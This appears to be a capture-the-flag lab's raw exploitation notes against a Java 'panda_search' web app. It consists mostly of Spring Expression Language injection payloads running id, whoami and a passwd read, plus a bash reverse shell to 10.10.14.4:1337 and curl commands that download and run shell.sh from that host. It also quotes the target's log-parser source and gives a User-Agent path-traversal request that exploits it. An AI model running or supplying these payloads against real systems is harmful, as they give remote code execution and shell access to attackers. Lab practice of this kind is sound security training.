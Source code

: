 class.getResource("../../../../../index.htm").getContent()

T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('ls').getInputStream())}

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream())}

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash%20-i%20>&%20/dev/tcp/10.10.14.4/1337%200>&1').getInputStream())}

shell.sh
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.4:8000/shell.sh -o /tmp/shell.sh').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('/bin/bash /tmp/shell.sh').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.4:8000/shell.sh -o /tmp/shell.sh').getInputStream())}

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod +x /tmp/shell.sh').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('/bin/bash /tmp/shell.sh').getInputStream())}

/opt/creditscore/LogParser/final/src/main/java/com/logparser/App.java


public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        

        return map;
    }
    public static boolean isImage(String filename){
        if(filename.contains(".jpg"))
        {
            return true;
        }
        return false;
    }
    public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    return tag.getDescription();
                }
            }
        }

        return "N/A";
    }
    public static void addViewTo(String path, String uri) throws JDOMException, IOException
    {
        SAXBuilder saxBuilder = new SAXBuilder();
        XMLOutputter xmlOutput = new XMLOutputter();
        xmlOutput.setFormat(Format.getPrettyFormat());

        File fd = new File(path);
        
        Document doc = saxBuilder.build(fd);
        
        Element rootElement = doc.getRootElement();
 
        for(Element el: rootElement.getChildren())
        {
    
            
            if(el.getName() == "image") 
            {
                if(el.getChild("uri").getText().equals(uri))
                {
                    Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                    System.out.println("Total views:" + Integer.toString(totalviews));
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }

    }
}

curl -A "evil||/../../../../../../../../../../../tmp/smooch.jpg" http://10.129.227.207:8080/

wget 10.129.227.207:8080/img/smooch.jpg
./exiftool -Artist smooch.jpg

wget 10.10.14.4:8000/smooch.jpg
curl -A "evil||/../../../../../../../../../../tmp/smooch.jpg" http://10.129.227.207:8080/
